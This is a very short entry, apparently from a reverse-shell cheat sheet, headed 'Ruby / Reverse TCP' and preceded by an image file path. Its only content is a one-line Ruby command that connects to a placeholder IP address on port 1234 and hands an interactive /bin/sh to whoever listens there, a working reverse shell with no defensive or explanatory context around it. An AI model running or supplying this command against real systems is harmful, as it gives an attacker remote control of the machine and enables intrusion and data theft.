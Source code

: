 # Ruby

## Reverse TCP

ruby -rsocket -e'f=TCPSocket.open("xx.xx.xx.xx",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
